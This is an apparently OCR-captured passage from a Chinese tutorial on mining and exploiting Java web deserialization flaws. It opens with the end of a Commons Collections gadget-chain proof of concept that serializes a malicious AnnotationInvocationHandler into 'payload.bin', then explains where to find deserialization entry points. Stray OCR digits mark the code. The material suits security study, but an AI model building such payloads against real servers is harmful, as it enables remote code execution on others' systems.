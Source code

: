 ```
		Map outerMap = TransformedMap.decorate(innerMap, null, transformedChain); //将Map对象和反射链作为参数传入       3
		Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  //得到 AnnotationInvocationHandler类的字节码文件      3
		Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);      3
		ctor.setAccessible(true);      3
		Object instance = ctor.newInstance(Target.class, outerMap);  //得到我们构造好的 AnnotationInvocationHandler类实例       3
		FileOutputStream f = new FileOutputStream("payload.bin");      3
		ObjectOutputStream out = new ObjectOutputStream(f);  //创建一个对象输出流      4
		out.writeObject(instance);  //将我们构造的 AnnotationInvocationHandler类进行序列化      4
		out.flush();      4
		out.close();      4
	}      4
}
```




JAVA Web反序列化漏洞的挖掘和利用 

---------------------



**1：漏洞触发场景**



在java编写的web应用与web服务器间通常会发送大量的序列化对象例如以下场景： 　　



*   HTTP请求中的参数，cookies以及Parameters。 　　

*   RMI协议，被广泛使用的RMI协议完全基于序列化 　　

*   JMX 同样用于处理序列化对象 　　

*   自定义协议 用来接收与发送原始的java对象



**2：漏洞挖掘** 　　



(1)确定反序列化输入点 　



首先应找出readObject方法调用，在找到之后进行下一步的注入操作。一般可以通过以下方法进行查找： 　　　　



1)源码审计：寻找可以利用的“靶点”，即确定调用反序列化函数readObject的调用地点。 　　



2)对该应用进行网络行为抓包，寻找序列化数据，java序列化的数据一般会以标记（ac ed 00 05）开头，base64编码后的特征为rO0AB。 　　



(2)再考察应用的Class Path中是否包含Apache Commons Collections库 　　
